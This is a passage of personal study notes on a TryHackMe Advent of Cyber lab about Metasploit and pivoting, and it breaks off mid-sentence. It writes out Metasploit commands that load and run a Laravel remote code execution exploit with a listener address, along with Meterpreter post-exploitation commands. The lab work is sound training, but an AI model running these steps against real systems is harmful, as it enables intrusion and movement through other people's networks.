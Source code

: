 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #TryHackMe #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Meterpreter to pivot
Metasploit has an internal routing table that can be modified with `route` command. This f 